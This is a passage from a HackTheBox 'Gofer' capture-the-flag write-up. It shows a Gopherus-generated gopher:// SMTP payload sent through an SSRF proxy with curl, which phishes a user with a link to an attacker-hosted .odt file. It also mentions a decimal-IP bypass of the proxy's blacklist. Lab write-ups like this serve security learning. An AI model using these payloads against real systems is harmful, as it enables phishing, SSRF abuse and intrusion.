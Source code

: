 My guess here is that if I can spoof an email to jhudson I can get them to open the link permitting it is a .odt file. Or maybe I need to construct a link that downloads a document which I can assume will be opened. 

<h2>Sending Emails with SMTP</h2>

[https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2](https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2)

This link identifies the namesake of the box: Gofer: the gopher:// protocol which can be used to send mail through SMTP. [Here is a python script](https://github.com/tarunkant/Gopherus) to automate the payload creation for gopher. 


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer/Gopherus]
└──╼ $python2 gopherus.py --exploit smtp


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$


Give Details to send mail: 

Mail from :  raccoon@gofer.htb
Mail To :  jhudson@gofer.htb
Subject :  Get Owned
Message :  http://10.10.14.5/raccoon.odt

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:raccoon%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:raccoon%40gofer.htb%0ASubject:Get%20Owned%0AMessage:http://10.10.14.5/raccoon.odt%0A.

-----------Made-by-SpyD3r-----------
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer/Gopherus]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25/_MAIL%20FROM:raccoon%40gofer.htb%0ARCPT%20To:jhudson%40gofer.htb%0ADATA%0AFrom:raccoon%40gofer.htb%0ASubject:Get%20Owned%0AMessage:http://10.10.14.5/raccoon.odt%0A.
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```

Another blacklisted string. Though this one is actually pretty simple to get around. [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass) labels many ways to get past url filtering, the relevant one here is decimal bypass which is the first I try.
